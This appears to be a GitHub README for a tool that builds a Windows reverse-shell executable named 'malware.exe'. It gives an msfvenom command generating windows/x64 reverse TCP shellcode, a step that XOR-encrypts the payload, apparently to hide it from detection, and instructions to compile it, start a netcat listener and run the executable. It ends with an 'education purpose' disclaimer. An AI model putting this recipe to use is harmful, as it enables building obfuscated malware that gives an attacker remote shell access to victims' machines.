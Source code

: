 ### Prerequesite
1. [Visual Studio](https://visualstudio.microsoft.com/downloads/)
2. [Python3](https://www.python.org/downloads/)
3. [Metasploit Framework](https://www.metasploit.com/download)

### Initiate
##### Generate Shellcode
Run this command to generate the shellcode via Msfvenom.
```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4455 -f raw -o payload.bin
```
##### Encrypt The Generated Payload 
Run this command to encrypt the generated shellcode and generating `malware.exe`.
```sh
python3 xorencrypt.py
```
### Execute
1. Run `compiler.bat` to compile all of them, then you will have `malware.exe`
2. Run the listener (such as [Netcat] (https://github.com/diegocr/netcat/) tool)
3. Run `malware.exe`

***All stuffs are only for education purpose!***
